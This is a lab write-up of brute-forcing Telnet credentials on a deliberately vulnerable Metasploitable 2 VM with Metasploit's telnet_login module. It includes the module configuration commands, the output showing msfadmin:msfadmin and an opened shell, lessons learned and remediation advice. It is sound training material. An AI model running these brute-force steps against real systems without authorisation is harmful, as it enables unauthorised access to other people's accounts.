


# Telnet Login Brute-Force — msfadmin Credential Discovery

This lab documents Telnet credential brute-forcing against Metasploitable 2 using Metasploit's `telnet_login` auxiliary module. The activity was performed only against an intentionally vulnerable virtual machine for educational purposes.

## Objective

Identify valid Telnet credentials on Metasploitable 2 using username and password wordlists, establish a session, and validate user-level access.

## Lab Environment

### Attacker Machine

- Linux penetration testing workstation
- Tools used: Metasploit Framework
- Attacker IP: `192.168.122.1`

### Target Machine

- Target: Metasploitable 2
- Target IP: `192.168.122.229`
- Vulnerable service: Telnet (`Linux telnetd`)
- Telnet port: `23/tcp`
- Discovered credentials: `msfadmin:msfadmin`

### Network

- Isolated virtual lab network: `192.168.122.0/24`
- No internet-facing systems were tested.

## Screenshots



*Metasploit console showing module search results, options, and configuration with USER_FILE, PASS_FILE, and RHOSTS set.*



*Successful credential discovery showing `msfadmin:msfadmin`, command shell session opened, and `whoami` validation.*

## Enumeration

### Nmap Service Scan

Previous scans against the target identified Telnet on port `23/tcp`:

| Port | Service | Version |
| --- | --- | --- |
| `23/tcp` | Telnet | Linux telnetd |

### Service Notes

Telnet is an unencrypted protocol — all traffic including credentials is transmitted in cleartext. This makes it particularly dangerous on production networks but useful for lab-based credential testing.

## Vulnerability Identification

The target runs `Linux telnetd` with default credentials still enabled. Telnet is enabled by default on Metasploitable 2 and the `msfadmin` account uses the same password across SSH, Telnet, and the system console.

The weakness is twofold: Telnet itself (unencrypted, outdated protocol) and weak credential management (default username and password unchanged).

## Exploitation

### Module Selection

The `telnet_login` auxiliary module performs credential brute-forcing against Telnet:

```text
search telnet_login
```

Result:

```text
1  auxiliary/scanner/telnet/telnet_login
```

Selected with:

```text
use 1
```

### Module Options

The module was configured with:

```text
set USER_FILE /tmp/wordlists/usernames.txt
set PASS_FILE /tmp/wordlists/passwords.txt
set RHOST 192.168.122.229
```

Unlike the `ssh_login` module which accepts `USERPASS_FILE` (space-separated pairs), `telnet_login` requires separate `USER_FILE` and `PASS_FILE` — it attempts every combination of the two lists. This is a cartesian product brute-force rather than a paired list.

### Credential Discovery

After multiple runs against various username-password combinations, the module found valid credentials:

```text
[+] 192.168.122.229:23 - Login Successful: msfadmin:msfadmin
[*] Command shell session 1 opened (192.168.122.1:32995 -> 192.168.122.229:23)
```

### Session Interaction

The session was accessed with:

```text
sessions -i 1
```

## Post Exploitation

### User Validation

Inside the session, the current user was confirmed:

```text
whoami
msfadmin
```

The session provided an interactive shell on the target as the `msfadmin` user.

## Lessons Learned

- `telnet_login` uses a cartesian product brute-force (`USER_FILE` × `PASS_FILE`), unlike `ssh_login` which supports paired `USERPASS_FILE`. This changes wordlist strategy — a few targeted usernames with many passwords scales differently.
- The same `msfadmin:msfadmin` credential works across SSH, Telnet, and system login on Metasploitable 2. Credential reuse across services magnifies the impact of a single weak password.
- Telnet transmits everything in cleartext — even if the password were strong, session hijacking and credential sniffing would still be possible on an untrusted network.
- Metasploit's brute-force modules are protocol-aware: they handle Telnet's negotiation handshake transparently, which a raw script would need to implement manually.
- Verbose output (`VERBOSE true`) is essential during brute-forcing — it shows progress, confirms the target is responding, and catches successes as they happen rather than waiting for the full scan.

## Remediation

| Control | Action |
| --- | --- |
| Disable Telnet | Replace Telnet with SSH for all remote access. Telnet should never be used in production. |
| Change default credentials | Replace all default usernames and passwords before deploying any system. |
| Account audit | Review all user accounts and remove or disable unused accounts. |
| Fail2ban / rate-limiting | Deploy login rate-limiting to slow brute-force attempts. |
| Network segmentation | Restrict Telnet (and all management access) to authorized management networks only. |

## References

- [Metasploit Documentation: telnet_login](https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html)
- [Metasploitable 2 Documentation](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [NVD: Cleartext Transmission of Sensitive Information](https://nvd.nist.gov/vuln/detail/CWE-319)
